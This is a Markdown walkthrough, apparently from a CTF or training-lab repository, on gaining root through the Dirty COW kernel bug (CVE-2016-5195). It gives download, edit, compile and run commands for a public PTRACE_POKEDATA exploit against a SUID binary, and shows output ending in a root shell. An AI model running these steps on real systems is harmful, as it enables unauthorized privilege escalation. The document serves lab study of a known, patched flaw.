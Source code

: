 # Root privilege escalation - Bonus 2: Dirty cow (shellcode injection)

## Dirty COW (Copy-On-Write)

### Details

[<img src="images/dirtycow.png" align="right" width="50%">](https://www.youtube.com/watch?v=kEsshExn7aE)

A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings.

The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016.

Impact

- An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.
- This flaw allows an attacker with a local system account to modify on-disk binaries, bypassing the standard permission mechanisms that would prevent modification without an appropriate permission set.

### Exploit: shellcode injection into a SUID file using PTRACE_POKEDATA

| Link                                                                     | Usage | Description     | Family          |
| ------------------------------------------------------------------------ | ----- | --------------- | --------------- |
| [c0w.c](https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54) | ./c0w | SUID-based root | PTRACE_POKEDATA |

- This exploit is a `PTRACE_POKEDATA` variant of `CVE-2016-5195` (dirtycow vulnerability).
- It gives the user root by injecting shellcode into a SUID file.

### How to

```shell
# Download and compile the exploit
curl https://gist.githubusercontent.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw/71c902f55c09aa8ced351690e1e627363c231b45/c0w.c > c0w.c
```

Edit c0w.c:

- (un)comment correct the correct payload (x64/x86).
- [optional] replace `char suid_binary[] = "/usr/bin/passwd";` with `/home/zaz/exploit_me`

Then compile `c0w.c`, execute it and execute the `suid_binary`

```
gcc -pthread c0w.c  -o c0w

./c0w
     (___)
     (o o)_____/
      @@ `     \
       \ ____, //home/zaz/exploit_me
       //    //
      ^^    ^^
  DirtyCow root privilege escalation
  Backing up /home/zaz/exploit_me to /tmp/bak
  mmap b7fd8000

  madvise 0

  ptrace 0

./exploit_me

# whoami
  root
```

or run:

```shell
./scripts/exploits/dirtycow_PTRACE_POKEDATA.sh
```

# DON'T FORGET TO RESTORE YOUR <suid_binary> AFTER RUNNING THE EXPLOIT!

mv /tmp/bak <suid_binary>

## Sources

### Vulnerability

- [Dirty Cow - Vulnerability Details](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)

### Exploit

- [A PTRACE_POKEDATA variant of CVE-2016-5195](https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54)
